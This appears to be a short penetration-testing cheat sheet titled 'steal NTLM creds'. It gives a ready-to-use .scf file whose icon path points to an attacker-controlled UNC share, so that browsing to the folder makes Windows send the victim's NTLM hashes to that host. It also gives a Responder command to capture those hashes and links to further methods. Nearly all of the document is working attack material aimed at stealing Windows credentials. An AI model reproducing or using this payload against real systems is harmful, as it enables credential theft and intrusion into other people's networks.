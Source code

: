 # steal NTLM creds

## .scf file

```
[Shell]
Command=2
IconFile=\\IP\drive\kashz.ico
[Taskbar]
Command=ToggleDesktop

# use responder to capture hash
sudo responder -wrf --lm -v -I tun0
```

## More Ways

* [https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds](https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds)
